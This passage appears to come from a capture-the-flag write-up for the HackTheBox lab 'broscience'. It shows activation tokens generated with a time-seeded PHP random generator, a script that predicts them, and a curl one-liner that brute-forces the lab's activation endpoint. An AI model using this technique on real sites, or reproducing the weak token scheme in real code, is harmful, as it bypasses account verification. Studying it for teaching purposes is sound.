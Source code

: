 `includes/utils.php` get's included in `register.php`.

Token is not implemented in safely manner.

```php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```
We can see that it calles seed `srand(time())` and `time()` is something that we can calculate, since response returns the time.

```
# This oneliner takes date from response and sends requests using system time for translated time - 10 seconds = 10 requests.

php -f activation.php `php -r "echo strtotime('11 Jan 2023 07:43:42 GMT');"` | xargs -n1 -I{} -P1 bash -c "curl --proxy http://127.0.0.1:8080 -k https://broscience.htb/activate.php?code={} --silent | grep activated"
```

This is the script that i've used. First i used `strtotime` using date that was returned in response when account was created `register.php`. Then i echoed time() with that value for the last 10 seconds and piped it into xargs. I could've used Burps intruder instead

```php
<?php
function generate_activation_code($gen_time) {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand($gen_time);
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

if (isset($argv[1])) {
        $gen_time = $argv[1];
        #echo "Using time from Arguments: ".$gen_time."\n";
}else {
        $gen_time = time();
        #echo "Using current time: ".$gen_time."\n";
}

for ($x = 0; $x <= 10; $x++) {
        echo generate_activation_code($gen_time-$x);
        echo "\n";

} 
?>
```
Activation was succesful!
